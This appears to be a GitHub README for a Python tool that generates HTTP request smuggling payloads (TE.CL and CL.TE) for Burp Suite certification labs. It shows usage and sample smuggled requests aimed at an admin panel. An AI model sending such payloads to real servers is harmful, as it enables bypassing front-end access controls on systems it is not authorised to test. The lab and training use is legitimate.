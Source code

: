 ## Introduction
This tool is developed for burp suite practitioner certificate exam and HTTP Request Smuggling labs. The most important about this tool is <b>TE.CL</b> vulnerability exploitation and chunk size auto generator so you don't have to calculate the chunk size for the second(malicious request). <b>Τhis tool is simple but very useful</b>

The inspiration about this tool it was the [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension tool from burpsuite to use it you must have a valid burpsuite license.

For the valid chunk generator (TE.CL) i found the source code from [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension. You can find the source code below. <br>
> [TE-CL | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/TE-CL.py) <br>
> [CL-TE | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/CL-TE.py)

#### Attention this tool does not offer automated exploitation. You have to identify the injection point and exploit it manually!


## Installation
```
$ git clone https://github.com/dhmosfunk/simple-http-smuggler-generator.git
$ python3 tool.py --help
```

## Usage

```
$ python3 tool.py --help
usage: tool.py -v clte/tecl -host xxxxxxxxxx.net  -a admin_panel -m GET

options:
  -h, --help            show this help message and exit
  -v VULNERABILITY, --vulnerability VULNERABILITY
                        Possible values CLTE or TECL
  -host HOSTNAME, --hostname HOSTNAME
                        Target HOSTNAME
  -a ACTION, --action ACTION
                        ex. admin_panel
  -m METHOD, --method METHOD
                        Request Methods [GET, POST]
```

### Generating TE.CL Request
```
$ python3 tool.py -v tecl -host xxxx.net -a admin_panel -m get

---[TE.CL Payload Generated]---

Transfer-Encoding: chunked
Content-Length: 3

75
GET /admin_panel HTTP/1.1
Host: xxxx.net
Content-Type: application/x-www-form-urlencoded
Content-length: 15

x=1
0

---[TE.CL Payload Generated]---

[INFO]> Dont forget the \r\n after 0
Also disable the auto-update Content-Length from menu
```

### Send TE.CL Request
![image](https://user-images.githubusercontent.com/45040001/190521300-8a2cd4ec-3727-4c5c-a631-da0e86cb56f2.png)


### Generating CL.TE Request
```
python3 tool.py -v clte -host xxxx.net -a admin_panel -m get

---[CL.TE Payload Generated]---

Transfer-Encoding: chunked

0

GET /admin_panel HTTP/1.1
Host: xxxx.net
X-Ignore: X


---[CL.TE Payload Generated]---
```

### Send CL.TE Generated Request
![image](https://user-images.githubusercontent.com/45040001/190520684-1941ec58-15ef-4c92-96c1-4e4fc8181d8e.png)
